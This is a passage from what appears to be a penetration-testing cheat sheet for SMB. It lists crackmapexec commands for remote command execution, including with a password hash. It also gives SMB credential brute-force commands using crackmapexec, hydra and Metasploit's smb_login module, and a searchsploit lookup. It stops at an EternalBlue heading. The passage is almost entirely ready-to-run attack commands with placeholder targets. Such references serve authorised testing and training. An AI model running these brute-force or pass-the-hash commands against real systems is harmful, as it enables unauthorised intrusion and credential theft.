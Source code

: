 {% code title="crackmapexec" overflow="wrap" %}
```bash
crackmapexec smb <IP> -u USER -p PASSWORD -x 'whoami'

# execute Powershell command
crackmapexec smb <IP> -u USER -p PASSWORD -X 'whoami'

# with Pass-the-Hash
crackmapexec smb <IP> -u USER -H <LM:NT> -X 'whoami'
```
{% endcode %}



### SMB Brute Force

Brute force the connection to find valid credentials.

{% code title="crackmapexec" overflow="wrap" %}
```bash
crackmapexec smb <IP> -u USER -p PASSWORD_FILE

# if we are in a AD environment and we want to permeform a brute force for a local user account, we have to add this flag 
crackmapexec smb <IP> -u USER -p PASSWORD_FILE --local-auth
```
{% endcode %}

{% code title="hydra" overflow="wrap" %}
```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <IP> smb/smb2 -I

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt <IP> smb/smb2 -I

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt <IP> smb/smb2 -I
```
{% endcode %}

{% code title="Metasploit" %}
```bash
use auxiliary/scanner/smb/smb_login
```
{% endcode %}



## Public SMB Vulnerabilities

A curated list of widely known vulnerabilities and their implications.

Check if the current SMB version is vulnerable.

```bash
searchsploit smb <version>
```

### EternalBlue (MS17-010)
